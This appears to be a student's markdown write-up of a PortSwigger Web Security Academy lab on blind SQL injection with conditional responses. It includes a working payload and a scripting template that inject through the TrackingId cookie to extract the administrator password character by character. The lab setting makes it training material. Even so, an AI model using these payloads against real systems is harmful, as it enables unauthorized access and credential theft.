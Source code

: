 **Lab solved!**


# ***11. Blind SQL injection with conditional responses***
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

**what we know:**
- injection vector = cookie "TrackingId" parameter
- table = users
- columns = username, password

lab 'tell' is a 'welcome screen' that is beeing loaded when any row returns a value,
effectivly changing the content length from any response without a raw.

**plan of attack**
- check injection point by breaking the code with "'"
- establish baseline: 'correct' response length and 'failed' response length:
- guess a letter and check response length for clues


**SQL command to use**
SUBSTR(string, start, length):

**examlpes:**
- substr(cat,1,1) = "c"
- substr(dog,2,1) = "o"
- substr(blue,2,2) = "lu"
- substr(united,4,3) = "ted"

to guess we need to compare each letter in the password to a letter of our choice:
password 1st letter  = 'a' // example

**command explanation:**
    AND SUBSTR(
        (SELECT password FROM users WHERE username = 'administrator'),        // string = password to check
        1,1)                                                                  //start substring from XX and for length of YY
        ='a                                                                  // compare to our charecter guess

**payload example**:
    'and substr((select password from users where username='administrator'),1,1)='a          //light version

**payload inside code** - using "pass_index" and "i" variables:
    trackingId +'+AND+SUBSTR((SELECT+password+FROM+users+WHERE+username+%3d+'administrator'),+{pass_index},+1)+=+'{i}"


<span style="color:yellow;font-weight:700;font-size:30px">
Blind SQL injection
</span>
https://portswigger.net/web-security/sql-injection/blind


# ***1. Blind SQL injection with conditional errors***
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
